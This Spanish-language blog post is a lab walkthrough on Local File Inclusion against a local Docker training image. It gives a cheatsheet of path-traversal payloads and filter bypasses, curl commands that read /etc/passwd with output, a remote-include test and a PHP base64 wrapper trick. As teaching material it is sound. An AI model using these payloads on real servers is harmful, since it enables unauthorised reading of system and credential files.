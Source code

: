 ```yaml
---
title: Laboratorio - LFI
author: cotes
date: 2023-06-24 17:51:00 +0800
categories: [Laboratoriom LFI]
tags: [LFI, OWASP]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/lfi/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LFI Logo
---
```


LFI (Local File Inclusion) es una vulnerabilidad web, de la cual nos podemos aprovechar para leer archivos de la máquina objetivo y en el mejor de los casos, para los atacantes, llegar a derivarlo a un RCE (Remote Code Execution)

## Cheatsheet 👩‍💻

|   **LFI**                | **Descripción**      |
|:----------------------------:|:-----------------|
| **`../../../../../../../../`** | Payload Básico. |
| **`....//....//....//....//`** | Bypass Posible Filtro. |
| **`/etc/./////.///hosts`**  \  **`/et?/?o?t?`** | Bypass Expresiones Regulares. |
| **`/etc/host%00`** \ **`/etc/passwd/.`** | Bypass Concatenación de Extensiones. |
| **`php://filter/convert.base64-encode/resource=[Path]`** | Wrapper de Codificación en Base64. 
| **`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`** | Bypass Posible Filtro. (Se urlencodea la cadena `../../../etc/passwd`) |



> Para practicar esta vulnerabilidad desplegaremos un **laboratorio con Docker:** `docker pull jnazario/lfi-labs`
{: .prompt-info }


* Como nos creó una imagen la ejecutamos haciendo por **Port Forwarding**: **`docker run -dit -p 80:80 <Image ID>`**


## LFI Básico ⚾

1. Para el primer laboratorio **LFI-1** nos dirigimos a: `http://localhost/LFI-1/`

![](/assets/images/lfi/lfi1.png)
   * Vemos que existe un parámetro **page** por el cual podemos indicar una página.
   * Si el **input** del usuario no se encuentra correctamente sanitizado, podemos llegar a leer archivos alojados en el servidor (**archivos de configuración**, **archivos críticos**, **etc**)

2. Intentaremos leer el archivo **`/etc/passwd`**

```bash
curl -s -X GET "http://localhost/LFI-1/index.php?page=/etc/passwd"

<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<SNIP>
```

### Laboratorio **LFI-3**

* Dependiendo del uso de determinadas librerías para incluir archivos, podremos leer archivos locales o incluir archivos de servidores externos.

    ![](/assets/images/lfi/functions.png)

* Al usar **`file_get_contents()`** podemos **leer archivos locales y externos**

* **Leer Archivos Locales:** `http://localhost/LFI-3/index.php?file=/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ```

* **Leer Archivos Remotos:**

    a. Primeros montamos un servidor **HTTP** con Python con un archivo **test.txt** que tenga el contenido `Hola`.

    * **Comando:** `python3 -m http.server 8080`

    b. Realizamos una petición con **cURL** a nuestro servidor:
    * **Comando:** `curl -s -X GET "http://localhost/LFI-3/index.php?file=http://<IP Máquina Host>:8080/test.txt"`

    * **Output**
        ```
        <SNIP>
        Hola
        ```
        > Vemos el contenido de nuestro archivo **test.txt** de nuestra máquina host.
         
### Laboratorio **LFI-5**
Al aplicar el **payload básico** veremos que no nos funciona, esto puede deberse a que se aplique un filtro mediante el cual eliminen `../`, este filtro puede **bypassearse**, si no se encuentra aplicado correctamente.

```php
<?php
$cadena = "../directorio/archivo.txt";
$reemplazo = "";
$nuevaCadena = str_replace("../", $reemplazo, $cadena);
echo $nuevaCadena; # nuevaCadena = directorio/archivo.txt
?>
```

Si nos fijamos bien en el código anterior, veremos que se elimina la coincidencia **`../`**, pero, no se aplica de manera recursiva, es decir, solo lo elimina una vez.

En caso de indicarle **`....//`** al eliminar una única vez **`../`** la cadena final será **`../`**, así que ya encontramos una forma de **bypassear** el filtro posiblemente aplicado.

* **Comando:** `curl -s -X GET "http://localhost/LFI-5/index.php?file=....//....//....//....//....//....//....//....//etc/passwd"`

* **Output**

```
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### **Usando Wrappers de PHP** 🍬
A pesar de que en todos los casos anteriores obtenemos el archivo **/etc/passwd** exitosamente, existirán casos en los que representar archivos con una estructura con muchas líneas o caracteres especiales puede corromper la muestra del mismo, haciendo que no nos sea posible leer archivos. Para evitar este tipo de problemas podemos representar la información en **base64**

En el laboratorio **LFI-1** podemos obtener el contenido encodeado en base64 usando **php://filter/encode.base64-convert/resource=[Path Archivo]**

* **Comando:** `curl -s -X GET "http://localhost/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"`

* **Output**

    ```
    <SNIP>
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25v<SNIP>
    ```

Ahora, podemos decodear la cadena anterior y ver el contenido original

* **Comando:** `echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3N<SNIP>" | base64 -d > lfi.txt`


![](/assets/images/lfi/text.png)